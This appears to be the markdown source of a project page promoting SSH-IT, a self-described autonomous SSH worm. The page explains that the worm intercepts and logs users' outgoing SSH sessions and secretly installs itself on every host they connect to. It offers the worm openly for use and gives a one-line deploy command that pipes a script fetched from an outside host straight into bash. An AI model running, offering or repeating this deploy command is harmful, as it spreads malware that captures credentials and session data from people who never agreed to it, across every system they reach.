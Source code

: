 ```yaml
---
layout: default
title: SSH-IT
description: An autonomous SSH worm that intercepts outgoing SSH connections every time a user uses ssh.
---
```


<!-- Begin of ugly CSS navigation styling hack -->
<!-- <style>a[href="/ssh-it/"] { font-weight: bold; }</style> -->
<!-- End of ugly CSS navigation styling hack -->

{% include nav-ssh-it-v1.html margin-top="0" margin-bottom="4rem" %}

<div style="width:80%; margin:auto">
    <script id="asciicast-LNmtdthAM1WewOs12ZnHd8RyC" src="https://asciinema.org/a/LNmtdthAM1WewOs12ZnHd8RyC.js" async data-autoplay=1 data-speed="1.5"></script>
</div>

## Install / Deploy

SSH-IT can be installed and deployed with a [single command](deploy):

```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

[Read more](deploy) and learn some [tricks](deploy).

## What it does

SSH-IT intercepts outgoing SSH connections every time a user uses `ssh`. It logs the session and (secretly) installs itself onto the newly connected system. SSH-IT keeps intercepting, logging and spreading.

## How it works

SSH-IT executes the original ssh command inside a fake PTY harness and intercepts any user input and output. None of the system binaries are modified and it does not need `ptrace()`. It does not require root or superuser privileges.

Read our [detailed explanation](how-it-works) for more information.

## Contact

{% include contact-details.md %}
